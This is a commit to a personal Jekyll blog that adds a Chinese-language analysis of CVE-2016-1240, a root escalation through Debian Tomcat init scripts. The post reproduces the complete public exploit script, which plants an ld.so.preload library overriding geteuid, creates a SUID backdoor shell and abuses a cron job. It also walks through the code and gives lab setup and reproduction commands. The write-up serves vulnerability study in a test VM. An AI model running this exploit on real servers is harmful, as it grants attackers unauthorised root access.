

Before and after one commit to Larryxi/Larryxi.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 834 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown.

Commit message:
20161012

```diff
--- a/_posts/2016-09-21-cve-2016-5734-analysis.markdown
+++ b/_posts/2016-09-21-cve-2016-5734-analysis.markdown
@@ -1,5 +1,5 @@
 ---
-title:  "CVE-2016-5734 Analysis"
+title:  "CVE-2016-5734 phpMyAdmin认证用户远程代码执行漏洞分析"
 date:   2016-09-21 19:00:00
 ---
 
--- /dev/null
+++ b/_posts/2016-10-12-cve-2016-1240-analysis.markdown
@@ -0,0 +1,295 @@
+---
+title:  "CVE-2016-1240 Apache Tomcat 本地提权分析"
+date:   2016-10-12 18:00:00
+---
+
+# 0x00 前言
+
+2016-10-03号，在exploit-db上出了[Apache Tomcat 8/7/6 (Debian-Based Distros) - Privilege Escalation](https://www.exploit-db.com/exploits/40450/)，也就是CVE-2016-1240 ，基于Debain的Apache Tomcat权限提升，攻击者在获取到tomcatN的shell之后，可以利用Debain系统在使用package安装的tomcat的启动脚本`/etc/init.d/tomcatN`中的缺陷，SUID的特性和对`geteuid`函数的覆盖，得到可使用的rootshell，达到提升权限的目的。本文将会对exploit脚本进行分析，并搭建环境加以复现
+
+# 0x01 脚本缺陷
+
+以tomcat7为例，在init脚本`/etc/init.d/tomcat7`中
+
+{% highlight bash %}
+# Run the catalina.sh script as a daemon
+set +e
+touch "$CATALINA_PID" "$CATALINA_BASE"/logs/catalina.out
+chown $TOMCAT7_USER "$CATALINA_PID" "$CATALINA_BASE"/logs/catalina.out
+{% endhighlight %}
+
+这段脚本主要是root用户在touch了catalina.out文件后，再将文件的所有者改为tomcat7的用户。脚本看似没有什么问题，但是cve的作者提出这么一个场景：当攻击者以tomcat的身份访问服务器的时候（比如说拿下了tomcat服务器的webshell），他就可以将catalina.out替换成指向任意文件的动态链接（软链接），在服务器重启之后（当然，是需要创造这种机会的），init脚本再次以root权限运行，将动态链接所指向的文件的所有者改成了tomcat用户，这样攻击者就可以读写服务器上的任意文件了。正如长亭科技的[文章](http://mp.weixin.qq.com/s?__biz=MzIwMDk1MjMyMg==&mid=2247483675&idx=1&sn=4b3333c9a16e2e29c6fed72ad45e0787&mpshare=1&scene=1&srcid=1008Gu6ULmhFZ9bHfhaeHCKr#rd)所分析的，作者并不甘于单纯的文件操作，而是利用SUID和/etc/ld.so.preload的方法获取到root权限的shell
+
+# 0x02 环境搭建
+
+老生常谈的系统更新就不赘述了，我这里使用Ununtu14.04虚拟机和tomcat7进行测试。问题出现于package中的初始化脚本中，而脚本则是来源于安装时的deb包，虽然可以通过apt-get直接安装tomcat7，但是debian官方及时进行了修复，我们得去下载历史的deb包来安装服务复现环境。在[snapshot](http://snapshot.debian.org/)上可以找到历史的deb包，这里我选择安装tomcat 7.0.14-1，过程如下
+
+{% highlight bash %}
+$ wget http://snapshot.debian.org/archive/debian/20110521T031913Z/pool/main/t/tomcat7/libservlet3.0-java-doc_7.0.14-1_all.deb
+$ sudo dpkg -i libservlet3.0-java-doc_7.0.14-1_all.deb
+$ sudo apt-get install libecj-java
+$ wget http://snapshot.debian.org/archive/debian/20110521T031913Z/pool/main/t/tomcat7/libtomcat7-java_7.0.14-1_all.deb
+$ sudo dpkg -i libtomcat7-java_7.0.14-1_all.deb
+$ wget http://snapshot.debian.org/archive/debian/20110521T031913Z/pool/main/t/tomcat7/tomcat7-common_7.0.14-1_all.deb
+$ sudo dpkg -i tomcat7-common_7.0.14-1_all.deb
+$ wget http://snapshot.debian.org/archive/debian/20110521T031913Z/pool/main/t/tomcat7/tomcat7_7.0.14-1_all.deb
+$ sudo dpkg -i tomcat7_7.0.14-1_all.deb
+{% endhighlight %}
+
+都是一些常规的依赖安装，安装好后`cat -n /etc/init.d/tomcat7 | less`就可看到存在缺陷的脚本片段了，但是在尝试启动tomcat的时候会报错`* no JDK found - please set JAVA_HOME`，起来也要安装jdk环境`sudo apt-get install --no-install-recommends openjdk-7-jdk`，再根据[这里](http://askubuntu.com/questions/154953/specify-jdk-for-tomcat7)在`/etc/default/tomcat7`中加入`JAVA_HOME`的环境变量`JAVA_HOME=/usr/lib/jvm/java-7-openjdk-amd64`，最后再重启一下tomcat就成功搭建起来了
+
+![][1]
+
+服务起来后可以尝试一下长亭文章中的利用缺陷操作系统文件，这里就不多说了
+
+# 0x03 脚本分析
+
+为了方便说明，请允许我先把脚本贴过来
+
+{% highlight bash %}
+#!/bin/bash
+#
+# Tomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit
+#
+# CVE-2016-1240
+#
+# Discovered and coded by:
+#
+# Dawid Golunski
+# http://legalhackers.com
+#
+# This exploit targets Tomcat (versions 6, 7 and 8) packaging on
+# Debian-based distros including Debian, Ubuntu etc.
+# It allows attackers with a tomcat shell (e.g. obtained remotely through a
+# vulnerable java webapp, or locally via weak permissions on webapps in the
+# Tomcat webroot directories etc.) to escalate their privileges to root.
+#
+# Usage:
+# ./tomcat-rootprivesc-deb.sh path_to_catalina.out [-deferred]
+#
+# The exploit can used in two ways:
+#
+# -active (assumed by default) - which waits for a Tomcat restart in a loop and instantly
+# gains/executes a rootshell via ld.so.preload as soon as Tomcat service is restarted.
+# It also gives attacker a chance to execute: kill [tomcat-pid] command to force/speed up
+# a Tomcat restart (done manually by an admin, or potentially by some tomcat service watchdog etc.)
+#
+# -deferred (requires the -deferred switch on argv[2]) - this mode symlinks the logfile to
+# /etc/default/locale and exits. It removes the need for the exploit to run in a loop waiting.
+# Attackers can come back at a later time and check on the /etc/default/locale file. Upon a
+# Tomcat restart / server reboot, the file should be owned by tomcat user. The attackers can
+# then add arbitrary commands to the file which will be executed with root privileges by
+# the /etc/cron.daily/tomcatN logrotation cronjob (run daily around 6:25am on default
+# Ubuntu/Debian Tomcat installations).
+#
+# See full advisory for details at:
+# http://legalhackers.com/advisories/Tomcat-DebPkgs-Root-Privilege-Escalation-Exploit-CVE-2016-1240.html
+#
+# Disclaimer:
+# For testing purposes only. Do no harm.
+#
+
+BACKDOORSH="/bin/bash"
+BACKDOORPATH="/tmp/tomcatrootsh"
+PRIVESCLIB="/tmp/privesclib.so"
+PRIVESCSRC="/tmp/privesclib.c"
+SUIDBIN="/usr/bin/sudo"
+
+function cleanexit {
+    # Cleanup
+    echo -e "\n[+] Cleaning up..."
+    rm -f $PRIVESCSRC
+    rm -f $PRIVESCLIB
+    rm -f $TOMCATLOG
+    touch $TOMCATLOG
+    if [ -f /etc/ld.so.preload ]; then
+        echo -n > /etc/ld.so.preload 2>/dev/null
+    fi
+    echo -e "\n[+] Job done. Exiting with code $1 \n"
+    exit $1
+}
+
+function ctrl_c() {
+        echo -e "\n[+] Active exploitation aborted. Remember you can use -deferred switch for deferred exploitation."
+    cleanexit 0
+}
+
+#intro
+echo -e "\033[94m \nTomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit\nCVE-2016-1240\n"
+echo -e "Discovered and coded by: \n\nDawid Golunski \nhttp://legalhackers.com \033[0m"
+
+# Args
+if [ $# -lt 1 ]; then
+    echo -e "\n[!] Exploit usage: \n\n$0 path_to_catalina.out [-deferred]\n"
+    exit 3
+fi
+if [ "$2" = "-deferred" ]; then
+    mode="deferred"
+else
+    mode="active"
+fi
+
+# Priv check
+echo -e "\n[+] Starting the exploit in [\033[94m$mode\033[0m] mode with the following privileges: \n`id`"
+id | grep -q tomcat
+if [ $? -ne 0 ]; then
+    echo -e "\n[!] You need to execute the exploit as tomcat user! Exiting.\n"
+    exit 3
+fi
+
+# Set target paths
+TOMCATLOG="$1"
+if [ ! -f $TOMCATLOG ]; then
+    echo -e "\n[!] The specified Tomcat catalina.out log ($TOMCATLOG) doesn't exist. Try again.\n"
+    exit 3
+fi
+echo -e "\n[+] Target Tomcat log file set to $TOMCATLOG"
+
+# [ Deferred exploitation ]
+
+# Symlink the log file to /etc/default/locale file which gets executed daily on default
+# tomcat installations on Debian/Ubuntu by the /etc/cron.daily/tomcatN logrotation cronjob around 6:25am.
+# Attackers can freely add their commands to the /etc/default/locale script after Tomcat has been
+# restarted and file owner gets changed.
+if [ "$mode" = "deferred" ]; then
+    rm -f $TOMCATLOG && ln -s /etc/default/locale $TOMCATLOG
+    if [ $? -ne 0 ]; then
+        echo -e "\n[!] Couldn't remove the $TOMCATLOG file or create a symlink."
+        cleanexit 3
+    fi
+    echo -e  "\n[+] Symlink created at: \n`ls -l $TOMCATLOG`"
+    echo -e  "\n[+] The current owner of the file is: \n`ls -l /etc/default/locale`"
+    echo -ne "\n[+] Keep an eye on the owner change on /etc/default/locale . After the Tomcat restart / system reboot"
+    echo -ne "\n    you'll be able to add arbitrary commands to the file which will get executed with root privileges"
+    echo -ne "\n    at ~6:25am by the /etc/cron.daily/tomcatN log rotation cron. See also -active mode if you can't wait ;)\n\n"
+    exit 0
+fi
+
+# [ Active exploitation ]
+
+trap ctrl_c INT
+# Compile privesc preload library
+echo -e "\n[+] Compiling the privesc shared library ($PRIVESCSRC)"
+cat <<_solibeof_>$PRIVESCSRC
+#define _GNU_SOURCE
+#include <stdio.h>
+#include <sys/stat.h>
+#include <unistd.h>
+#include <dlfcn.h>
+uid_t geteuid(void) {
+    static uid_t  (*old_geteuid)();
+    old_geteuid = dlsym(RTLD_NEXT, "geteuid");
+    if ( old_geteuid() == 0 ) {
+        chown("$BACKDOORPATH", 0, 0);
+        chmod("$BACKDOORPATH", 04777);
+        unlink("/etc/ld.so.preload");
+    }
+    return old_geteuid();
+}
+_solibeof_
+gcc -Wall -fPIC -shared -o $PRIVESCLIB $PRIVESCSRC -ldl
+if [ $? -ne 0 ]; then
+    echo -e "\n[!] Failed to compile the privesc lib $PRIVESCSRC."
+    cleanexit 2;
+fi
+
+# Prepare backdoor shell
+cp $BACKDOORSH $BACKDOORPATH
+echo -e "\n[+] Backdoor/low-priv shell installed at: \n`ls -l $BACKDOORPATH`"
+
+# Safety check
+if [ -f /etc/ld.so.preload ]; then
+    echo -e "\n[!] /etc/ld.so.preload already exists. Exiting for safety."
+    cleanexit 2
+fi
+
+# Symlink the log file to ld.so.preload
+rm -f $TOMCATLOG && ln -s /etc/ld.so.preload $TOMCATLOG
+if [ $? -ne 0 ]; then
+    echo -e "\n[!] Couldn't remove the $TOMCATLOG file or create a symlink."
+    cleanexit 3
+fi
+echo -e "\n[+] Symlink created at: \n`ls -l $TOMCATLOG`"
+
+# Wait for Tomcat to re-open the logs
+echo -ne "\n[+] Waiting for Tomcat to re-open the logs/Tomcat service restart..."
+echo -e  "\nYou could speed things up by executing : kill [Tomcat-pid] (as tomcat user) if needed ;)"
+while :; do
+    sleep 0.1
+    if [ -f /etc/ld.so.preload ]; then
+        echo $PRIVESCLIB > /etc/ld.so.preload
+        break;
+    fi
+done
+
+# /etc/ld.so.preload file should be owned by tomcat user at this point
+# Inject the privesc.so shared library to escalate privileges
+echo $PRIVESCLIB > /etc/ld.so.preload
+echo -e "\n[+] Tomcat restarted. The /etc/ld.so.preload file got created with tomcat privileges: \n`ls -l /etc/ld.so.preload`"
+echo -e "\n[+] Adding $PRIVESCLIB shared lib to /etc/ld.so.preload"
+echo -e "\n[+] The /etc/ld.so.preload file now contains: \n`cat /etc/ld.so.preload`"
+
+# Escalating privileges via the SUID binary (e.g. /usr/bin/sudo)
+echo -e "\n[+] Escalating privileges via the $SUIDBIN SUID binary to get root!"
+sudo --help 2>/dev/null >/dev/null
+
+# Check for the rootshell
+ls -l $BACKDOORPATH | grep rws | grep -q root
+if [ $? -eq 0 ]; then
+    echo -e "\n[+] Rootshell got assigned root SUID perms at: \n`ls -l $BACKDOORPATH`"
+    echo -e "\n\033[94mPlease tell me you're seeing this too ;) \033[0m"
+else
+    echo -e "\n[!] Failed to get root"
+    cleanexit 2
+fi
+
+# Execute the rootshell
+echo -e "\n[+] Executing the rootshell $BACKDOORPATH now! \n"
+$BACKDOORPATH -p -c "rm -f /etc/ld.so.preload; rm -f $PRIVESCLIB"
+$BACKDOORPATH -p
+
+# Job done.
+cleanexit 0
+{% endhighlight %}
+
+首先是49到66行的cleanexit和ctrl_c函数负责在退出后环境的清理，直至原始的状态。从77到81行看出脚本接受catalina.out的路径和模式的选择，模式分为deferred和active模式，默认为active。83到97行则是检查是否为tomcat用户运行地脚本和对应路径的catalina.out文件是否存在。
+
+如果设置了deferred参数则会进入105到117行的逻辑，该模式就是被动等待。首先删除catalina.out文件，再建立/etc/default/locale的软链接到catalina.out，等tomcat或系统重启后tomcat用户就可以变成/etc/default/locale的所有者，即可写入任意的命令，最后结合/etc/cron.daily/tomcatN中的计划任务的配置，在每天早上6:25利用root权限来执行写入的任意命令。
+
+如果等不了的话可以进入active模式，121到155行是前期利用环境的准备。先说一下作者整体的利用思路：借助init脚本中的缺陷把[/etc/ld.so.preload](http://liaoph.com/linux-shared-libary/)的所有者改为tomcat，而/etc/ld.so.preload和LD_PRELOAD的作用一样，我们将自定义的函数编译成so文件后再写入/etc/ld.so.preload中，即可完成对标准C函数的覆盖，进而实现我们想要的效果。
+
+147到149行是先copy一个后面shell到/tmp目录下，不过权限还比较低。151到155行则是检查/etc/ld.so.preload存在，为了安全起见存在的话退出脚本。122到145行在编译/tmp/privesclib.so文件，覆盖掉标准的geteuid函数，在函数内部会检测程序的euid，当euid为0时也就是root权限运行时会将之前的后面shell改为root用户和root组，更改后门shell的权限并设置SUID，最后删除/etc/ld.so.preload文件。
+
+这里需要补充一下SUID的知识：linux内核主要是根据euid和egid来确定进程对资源的访问权限的，当linux的二进制文件执行时，会使用geteuid函数来获得euid。一个进程如果没有SUID或SGID位，则euid=uid egid=gid；如果一个程序设置了SUID，则euid和egid变成被运行的程序的所有者的uid和gid。也就是说其他人运行了设置有SUID的程序，则该程序会以程序所有者的身份被运行，我们的passwd程序就是这样的一个例子。（更多相关参考可以看[这里](http://www.cnblogs.com/fhefh/archive/2011/09/20/2182155.html)）如果成功执行了我们覆盖的geteuid函数，后门shell的权限则会变成rws，当任何人运行该shell时，shell都会以root的身份被执行，我们的权限也就提升了。
+
+下面就需要创造调用覆盖函数的机会。158到174行利用缺陷，在等待tomcat或主机重启后将/etc/ld.so.preload的所有者改为tomcat用户，然后向其中写入我们之前编译的/tmp/privesclib.so文件。最后调用[sudo](http://www.jb51.net/article/48390.htm)程序，因为sudo的权限为rws所有者为root，所以在调用过程中euid是为0的，我们的覆盖函数就发挥的作用，更改后门shell的权限。187到203行则是检测后门shell的权限是否更改成功并且调用，这样整个权限提升的过程就完成了。
+
+# 0x04 漏洞复现
+
+直接下载作者提供的脚本还不能用，需要编辑一下，而且编译环境需要gcc，具体如下:
+
+{% highlight bash %}
+$ sudo apt-get install gcc
+$ wget https://www.exploit-db.com/download/40450
+$ sed -n '93, 296p' 40450 > exploit.sh
+$ chmod 777 exploit.sh
+$ sudo apt-get install dos2unix
+$ dos2unix exploit.sh
+{% endhighlight %}
+
+为了模拟攻击者拿到了tomcat的shell和创造机会使tomcat重启，我将tomcat的shell设置了一下，并且使用sleep将重启服务后置几秒然后运行攻击脚本，具体如下：
+
+{% highlight bash %}
+$ sudo usermod -s /bin/bash tomcat7
+$ sleep 20 && sudo service tomcat7 restart &
+$ sudo su tomcat -c "/bin/bash exploit.sh /var/log/tomcat7/catalina.out"
+{% endhighlight %}
+
+![][2]
+
+# CVE-2016-5425
+
+10月10号freebuf上有一篇文章通报本文所述的漏洞，然后就有人评论说“还是我fedora小白鼠闷声发大财.”。然而CVE的作者也在10月10号提交了[Apache Tomcat 8/7/6 (RedHat-Based Distros) - Privilege Escalation](https://www.exploit-db.com/exploits/40488/)，也就是CVE-2016-5425，影响所有基于RedHat的发行版本，当然fedora也包含在内，想一想也是蛮搞笑的单纯。这个漏洞依旧是安装包中文件权限设置不当，使得tomcat组对/usr/lib/tmpfiles.d/tomcat.conf有写权限，因此可对该文件写入[相应的指令]()，一旦主机重启就会以root权限执行写入的命令，即可反弹shell也可留下后面，更多的内容见[这里](http://www.freebuf.com/news/116412.html)。
+
+[1]: /images/20161012/1.png
+[2]: /images/20161012/2.png
```
Also changed, not shown: images/20161012/1.png (added), images/20161012/2.png (added).
